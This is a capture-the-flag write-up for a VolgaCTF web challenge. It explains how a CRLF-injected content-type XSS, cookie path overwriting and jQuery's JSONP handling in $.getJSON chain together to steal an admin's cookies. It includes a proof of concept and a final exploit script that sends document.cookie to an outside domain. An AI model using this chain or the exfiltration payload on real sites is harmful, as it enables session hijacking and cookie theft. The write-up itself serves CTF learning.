 ## Owner:

> CaptainFreak

#### Solved?

 -No


#### Challenge Description.

0. Three domains:
	0.a. static.volga-ctf.ru -> CDN
	0.b. api.volga-ctf.ru    -> API
	0.c. volga-ctf.ru        -> Main Domain

1. There was a Report Feature to submit a URL and Admin user will visit it using a FireFox client.

2. Standard, Login and Signup.

3. Upon Loggin in, Server sets a standard session cookie "PHPSESSIONID" and another interesting cookie "api-server=api".

4. This `api-server` cookie is used POST-login to send XHR calls to {api-server-cookie}.volga-ctf.ru for getting user Profile [Name, Bio and Profile Picture]. Getting value of subdomain from cookie smells fishy!

5. api.volga-ctf.ru/user-update take an image as well its content-type from client Side but to be not vulnerable to xss it was checking if this contained substrings as "html", "xml" and "xsl".

6. volga.ctf/profile.html?guid=user-id seems useless cause /profile is also doing same

And task was:

> To somehow steal admins cookies by chaining all this.


#### Tried:

1. Clearly SSRF through Report.
2. Fuzzed, Bypassed Got the XSS on static domain through content-type: `image/svg+x\rml` -> this worked because the code `aws/aws-sdk-php`  that pushed the images to s3 bucket (static.volga-ctf.ru) was vulnerable to CRLF. 
Another ways to get XSS on this domain will be :

	2.a. To fuzz multiple content types supported by browser and are interpreted as HTML. Ex. `text/rdf`, `text/xsl` and `text/vtt`

	2.b. Use FirFoxes multipart response rendering with content-type: `Content-Type: multipart/x-mixed-replace;boundary="boundry`. Firefox renders the last part of the response.

#### Solutions:

1.	So we have XSS on static.volga-ctf.ru.

2.  Now using this XSS we can set the cookie `api-server=shoebpatel.com\xff; path=/profile.html` for `volga-ctf.ru`. This will overwrite the original cookie on url `/profile.html` because it was set for "path=/".

3. We did this because now on `volga-ctf.ru/profile.html` the main.js has code

```
$.getJSON(`//${api}.volga-ctf.ru/user?guid=${guid}`
```

If loaded will do request on `shoebpatel.com/?volga-ctf.ru/user?guid=${guid}` which will give cookies which was being originally sent to api.volga-ctf.ru (PHPSESSIONID) Only. We have PHP cookie but we yet dont have Flag cookie :( .

4. So next step was just a simple google search for `$.getJSON XSS` step! We needed to read and find about XSS ways in getJSON !

5. It was damn easy, If the URL to $.getJSON contains `?` anywhere in the following format, Examples:
	
	5.0. https://captainfreak.com/q?a=?
	5.a. https://captainfreak.com/??
	5.b. https://captainfreak.com/=?&
	5.c. https://captainfreak.com??
	5.d. https://??.captainfreak.com/

It will be considered as JSONP in JQuery's context and by that what it means its basically gonna do 

```
<script src="https://captainfreak.com/?a=?"></script>
```

And this is hosted on volga-ctf.ru. Boom XSS!

If you still need to try yourself to get this:

### PoC:

test.html:
```
<!doctype html>
<html lang="en">
  <head>
  	<script src="https://code.jquery.com/jquery-3.4.1.min.js" integrity="sha256-CSXorXvZcTkaix6Yvo6HppcZGetbYMGWSFlBw8HfCJo=" crossorigin="anonymous"></script>

  </head>
  <body>
  	<script type="text/javascript">
  		$.getJSON('http://0.0.0.0:8000/a?a=?',function(data){});
  	</script>
  	
  </body>
```

where `http://0.0.0.0:8000/a?a=?` returns just 
```
alert(1); 
```

You will get the alert :) 

### Final Simple XSS Exploit to be uploaded to static domain and reported for SSRF:

```
<script> 
document.cookie="api_server=shoebpatel.com\xff; path=/profile.html; domain=.volgactf-task.ru";

// Now we set the server to attacker domain with cookie which will be used for fetching our next XSS cookie exfil payload in below request:

location="https://volgactf-task.ru/profile.html?guid=?"

// This will invoke the $getJSON thingy in main.js with attacker domain responding with second XSS payload :) to send away the cookies on volga-ctf.ru
</script>

// The request to our attacker server (shoebpatel.com/?volgactf-task.ru/user?guid=?) should host the cookie exfiltration payload like:

const url = "shoebpatel.com/?cookie+" + btoa(document.cookie);
document.location = url;

```

### References:

1. https://ctftime.org/task/10863



